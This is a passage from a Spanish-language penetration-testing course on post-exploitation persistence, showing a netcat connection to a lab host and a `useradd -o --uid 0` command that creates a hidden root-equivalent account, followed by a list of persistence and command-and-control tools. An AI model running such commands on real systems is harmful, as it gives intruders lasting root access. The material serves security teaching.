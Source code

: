 ```bash
nc -n -vv 192.168.1.49 7777
```

![nc](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/nc.png?raw=true)

```bash
Uname -a
```

La conexión se ha establecido correctamente. Y ya se tiene acceso en el objetivo de evaluación con los privilegios del usuario root. Completando el punto anterior podemos crear un user root para mantener nuestra persistencia.

```bash
useradd -o --uid 0 superroot
```

![useradd](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/useradd.png?raw=true)

### Herramientas para actividades

Para mantener el acceso, incluso después de reinicios y cierres, se necesita establecer una forma de persistencia. Estas herramientas pueden ayudar:

- **SharPyShell**: Un shell obfuscado y altamente personalizable que es útil para mantener la persistencia.
- **SharpStay**: Esta herramienta permite la persistencia a través de la creación de tareas programadas.
- **SharpEventPersist**: Un script que se utiliza para la persistencia a través de la suscripción a eventos de Windows.
- **PowerShell Empire**: Permite la creación de agentes persistentes y automatiza la ejecución de comandos.
- **Covenant**: Similar a PowerShell Empire, proporciona una plataforma para la creación de backdoors y la automatización de acciones.
- **Veil-Evasion**: es una herramienta que crea payloads ofuscados para eludir la detección de antivirus y puede utilizarse para establecer persistencia.
- **Beacon (Cobalt Strike)**: Beacon es una herramienta integrada en Cobalt Strike que permite a los actores de amenazas mantener el acceso persistente y controlar sistemas comprometidos.
- **Meterpreter (Metasploit)**: Meterpreter, un módulo de Metasploit, proporciona funcionalidades avanzadas para el acceso y control persistente en sistemas comprometidos.

Responder es una herramienta que puede ser utilizada para realizar ataques de tipo "LLMNR/NBT-NS Spoofing" y obtener credenciales, lo que puede contribuir a la persistencia.

Recuerda que el conocimiento y uso de estas herramientas deben alinearse con prácticas éticas y legales, y solo deben ser empleadas en entornos controlados con permisos adecuados.

## Recopilación de información adicional y movimiento lateral

La recopilación de información adicional y el movimiento lateral son fases fundamentales en las pruebas de penetración, pero es esencial realizarlas de manera ética y legal, con el consentimiento explícito del propietario del sistema.
